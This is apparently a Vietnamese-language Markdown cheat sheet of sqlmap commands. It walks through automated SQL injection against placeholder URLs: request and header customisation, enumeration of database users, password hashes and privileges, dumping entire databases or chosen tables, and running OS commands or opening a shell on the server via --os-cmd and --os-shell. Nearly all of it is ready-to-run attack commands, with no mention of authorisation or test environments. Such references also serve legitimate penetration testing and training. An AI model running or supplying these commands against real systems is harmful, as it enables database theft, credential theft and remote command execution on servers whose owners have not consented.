 > [!NOTE]
> Những dữ liệu năm trong ngoặc ngọn ```<>``` là dữ liệu tuỳ chỉnh
# Khai thác nhanh (bỏ qua các tuỳ chọn)
- Lệnh quét nhanh sẽ bỏ qua các tuỳ chọn được đưa ra trong quá trình quét, nhưng vẫn có thể thu về các thông tin cơ bản về lỗ hổng
- Câu lệnh sử dựng khi chưua có thông tin về mục tiêu
  
		sqlmap -u "<http://example.com>" --forms --flush-session --answers="form=Y,fill blank fields=n,skip=Y,tests=N,follow=N,keep=N,quit=Y,resume=Y" --batch
- **Lưu ý**:
  - Tuỳ chọn ```--flush-session``` để xoá phiên làm việc trước đó, nếu cần sử dụng dữ liệu từ phiên làm việc trước thì cần bỏ tuỳ chọn này
  - Trường hợp phải xác thực username:password thì ta cần login rồi cung cấp Cookie cho sqlmap bằng option ```--cookie```
# Khai thác toàn bộ
- Quét và thực hiện khai thác lỗ hổng với các tuỳ chọn mặc định
  
		sqlmap -u "<http://example.com>" --forms --flush-session --batch --all
- **Lưu ý**:
  - Tuỳ chọn ```--flush-session``` để xoá phiên làm việc trước đó, nếu cần sử dụng dữ liệu từ phiên làm việc trước thì cần bỏ tuỳ chọn này
  - Trường hợp phải xác thực username:password thì ta cần login rồi cung cấp Cookie cho sqlmap bằng option ```--cookie```
# Các lệnh tuỳ chỉnh
- Lệnh cơ bản:

		sqlmap -u <URL> [OPTIONS]
- Ta sẽ kết hợp câu lệnh cơ bản với các tuỳ chọn để phù hợp với từng mục đích
## Tuỳ chỉnh Request
- Cung cấp file Request:
  
		sqlmap -r <req.txt> --batch 
- Chỉ định tham số cho GET Request:

		sqlmap -u "<http://example.com/?id=*>" -p <id> --batch
- Chỉ định tham số cho POST Request:
  
 		sqlmap -u "<http://example.com>" --data="<username=*&password=*>" --batch
- Chỉ định Headers:

		sqlmap -u "<http://example.com>" --headers="<x-forwarded-for:127.0.0.1*>" --batch --forms
		sqlmap -u "<http://example.com>" --headers="<referer:*>" --forms
- Chỉ định cookie:
  
		sqlmap  -u "<http://example.com>" --cookie "<mycookies=*>" --forms --batch
- Chỉ định HTTP method:

		sqlmap --method=PUT -u "<http://example.com>" --forms --batch
- Chỉ định User-agent:

   		sqlmap -u "<http://example.com>" --user-agent=<SQLMAP> --forms --batch
## Thu thập thông tin
### Thông tin nội bộ
- Thông tin về người dùng hiện tại:

  		sqlmap -u "<http://example.com>" --current-user --forms --batch
- Kiểm tra người dùng hiện tại có phải admin không

		sqlmap -u "<http://example.com>" --is-dba --forms --batch
- Thông tin hostname:

		sqlmap -u "<http://example.com>" --hostname --forms --batch
- Thông tin các user hệ thống

		sqlmap -u "<http://example.com>" --users --forms --batch
- Thông tin về password của các users
  
		sqlmap -u "<http://example.com>" --password --forms --batch
- Thông tin về đặc quyền của các users

		sqlmap -u "<http://example.com>" --privileges --forms --batch
### Dữ liệu từ Database
- Các options chỉ định, có thể thêm vào các lệnh bên dưới để chỉ định DB, bảng, cột để lấy dữ liệu:
  - ```-D <DB NAME>```: Chỉ định Database
  - ```-T <TABLE NAME>```: Chỉ định bảng
  - ```-C <COLUMN NAME>```: Chỉ định cột
- Toàn bộ dữ liệu
  
  		sqlmap -u "<http://example.com>" --all --forms --batch
- Dữ liệu từ đối tượng được chỉ đinh

		sqlmap -u "<http://example.com>" -D <DB_NAME> -T <TABLE> -C <COLUMN> --forms --batch --dump
- Liệt kê các bảng

		sqlmap -u "<http://example.com>" --tables --forms --batch
- Liệt kê các cột

		sqlmap -u "<http://example.com>" --columns --forms --batch
## Shell
- Thực thi lệnh được chỉ định

  		sqlmap -u "<http://example.com>" --forms --batch --os-cmd <whoami>
- Mở Shell
  
		sqlmap -u "<http://example.com>" --forms --batch --os-shell
